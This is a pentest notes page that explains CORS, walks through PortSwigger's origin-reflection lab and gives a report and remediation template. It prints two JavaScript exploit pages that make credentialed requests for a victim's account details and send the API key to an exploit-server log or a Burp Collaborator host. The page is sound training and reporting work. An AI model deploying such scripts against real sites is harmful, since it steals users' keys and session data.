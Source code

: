 # Cross Origin Resource Sharing

## What is it

Cross-Origin Resource Sharing (CORS) is a mechanism that allows web browsers to securely access resources (such as data, images, or scripts) on a different domain than the one from which the web page was originally served. By default, web browsers restrict such access due to security concerns, but CORS provides a standardized way to relax these restrictions.

When a web page loaded from one origin (domain, protocol, and port) tries to request resources from another origin, the browser sends an initial "preflight" request to the target server. This preflight request asks for permission to make the actual request and includes information about the intended request (e.g., HTTP method, headers, and content type). The server, in turn, responds with a set of headers indicating whether it allows the requested resource to be accessed by the requesting origin.

These headers are known as CORS headers and are part of the HTTP response. The key CORS headers are:

- Access-Control-Allow-Origin: This header specifies the allowed origin(s) that can access the resource. For example, if a server sends "Access-Control-Allow-Origin: example.com", it means that only requests originating from "example.com" will be allowed.

- Access-Control-Allow-Methods: This header lists the HTTP methods (e.g., GET, POST, PUT) allowed by the server for the requested resource.

- Access-Control-Allow-Headers: This header specifies the allowed headers in the actual request. It helps control which custom headers can be included in the request.

- Access-Control-Allow-Credentials: This header indicates whether the requesting origin is allowed to include credentials (such as cookies or authorization headers) in the request.

CORS operates as a security measure to protect users and prevent unauthorized access to resources. It allows server administrators to define fine-grained access policies for their resources, ensuring that only trusted origins can access sensitive data or perform certain actions.

If misconfigured CORS can be abused. [Here is a brillant and very well detailed explaination of this.](ttps://www.trustedsec.com/blog/cors-findings/)

## Exploitation Example

- Let's practice with the [Lab CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack) from PortSwigger Web Academy
- `wiener:peter` are our creds for the lab
- Let's launch the lab and go to "my account" in our and login with the provided creds  

![logged in](../.res/2023-01-25-18-18-36.png)  

- In Burp it looks like this. We are redirected to the `/accountDetails` page that has an apikey.  

![reqrep](../.res/2023-01-25-18-19-58.png)  

- We need to send this request to the repeater and check if it is vulnerable to CORS. [This article](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/07-Testing_Cross_Origin_Resource_Sharing) on OWASP is really helpful for this purpose.
- To do this we add an Origin header and put a random value.  
We can see that our random value appears in the response header `Access-Control-Allow-Origin` and that on top of this the `Access-Control-Allow-Credentials` is set to true.
- See our modified request and the response here  

![cors misconfigured](../.res/2023-01-25-18-26-41.png)  

- Knowing this we can now make a script to try to get more informations. In our example we will use the exploit server provided along with burp collaborator because the Access logs from the lab is buggy.  

```javascript
<!DOCTYPE html>
<html>
<body>
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    var url = "https://0a980006031d173ec6a5e26100e000b6.web-security-academy.net"
    
    req.onreadystatechange = function() {  
        fetch("/log?key="+req.responseText)
    }
    req.open('GET',url + "/accountDetails", true);
    req.withCredentials = true;
    req.send(null);
</script>
</body>
</html>
```

```javascript
<!DOCTYPE html>
<script>
    var victim = 'https://0aa600f704497dbac19a806500ef0037.web-security-academy.net/accountDetails';
    var collaborator = 'https://utr17g244hmkya8obx3uzsbcc3iu6lua.oastify.com';

    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET',victim,true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        req.open("GET", collaborator+"/?key="+req.response, true);
        req.send();
    };
</script>
```

- Thanks to [Lisandre](https://lisandre.com/penetration-tests/web-applications-apis/cors) for the exploit script. (I just removed the encoding to base64)  
It is the cleanest one I have seen so far and also the most readable.

- Let's put our script in the exploit server and click on Deliver Exploit to victim

![Deliver](../.res/2023-01-28-08-42-30.png)

- Once stored we click on "deliver to victim"
- Now we can check our collaborator. We will have a new request with the content we need.

![Get apikey](../.res/2023-01-28-08-46-12.png)

- If we select the string the inspector will decode it from URL encoding for more readability  

![Inspector](../.res/2023-01-28-08-48-17.png)

- We just need to take the apikey value and paste it in submit solution and we successfuly exploited a cors misconfiguration.

![Solved](../.res/2023-01-28-08-49-52.png)

## How to report

> *Note: Here is an example on how to report it, CVSS score is here as a reference but you should always check out the context of your customer to calculate it*

```md
## CVSS

cvss_vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:N/I:L/A:N

## Description

Cross Origin Resource Sharing (CORS) is a mechanism that enables a web browser to perform cross-domain requests using the XMLHttpRequest (XHR) Level 2 (L2) API in a controlled manner. In the past, the XHR L1 API only allowed requests to be sent within the same origin as it was restricted by the Same Origin Policy (SOP).

Cross-origin requests have an Origin header that identifies the domain initiating the request and is always sent to the server. CORS defines the protocol to use between a web browser and a server to determine whether a cross-origin request is allowed. HTTP headers are used to accomplish this.

The W3C CORS specification mandates that for non simple requests, such as requests other than GET or POST or requests that uses credentials, a pre-flight OPTIONS request must be sent in advance to check if the type of request will have a bad impact on the data. The pre-flight request checks the methods and headers allowed by the server, and if credentials are permitted. Based on the result of the OPTIONS request, the browser decides whether the request is allowed or not.

In our context, the CORS was misconfigured and we were able to exploit it in order to access the confidential administrator apikey.

## Affected elements

- https://0aa600f704497dbac19a806500ef0037.web-security-academy.net/accountDetails

## Evidence

Here you can put the code of the PoC and screens of collaborator as proof of successful exploitation.

## Remediation

Make sure cors is properly configured:

- Validate URLs passed to XMLHttpRequest.open. Current browsers allow these URLs to be cross domain; this behavior can lead to code injection by a remote attacker. Pay extra attention to absolute URLs.
- Ensure that URLs responding with Access-Control-Allow-Origin: * do not include any sensitive content or information that might aid attacker in further attacks. Use the Access-Control-Allow-Origin header only on chosen URLs that need to be accessed cross-domain. Don't use the header for the whole domain.
- Allow only selected, trusted domains in the Access-Control-Allow-Origin header. Prefer allowing specific domains over blocking or allowing any domain (do not use * wildcard nor blindly return the Origin header content without any checks).
- Keep in mind that CORS does not prevent the requested data from going to an unauthorized location. It's still important for the server to perform usual CSRF prevention.
- While the Fetch Standard recommends a pre-flight request with the OPTIONS verb, current implementations might not perform this request, so it's important that "ordinary" (GET and POST) requests perform any access control necessary.
- Discard requests received over plain HTTP with HTTPS origins to prevent mixed content bugs.
- Don't rely only on the Origin header for Access Control checks. Browser always sends this header in CORS requests, but may be spoofed outside the browser. Application-level protocols should be used to protect sensitive data.

## Reference

- [HTML5 Security Cheat Sheet - Cross Origin Resource Sharing - OWASP](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#cross-origin-resource-sharing)
- [OWASP - Testing Cross Origin Resource Sharing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing)
```

## Resources

- [OWASP - Testing Cross Origin Resource Sharing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing)
- [Lisandre - Cross Origin Resource Sharing (CORS)](https://lisandre.com/penetration-tests/web-applications-apis/cors)
- [Hacktricks - CORS Bypass](https://book.hacktricks.xyz/pentesting-web/cors-bypass)
- [Hackerone report for US DoD - Cors](https://hackerone.com/reports/470298)
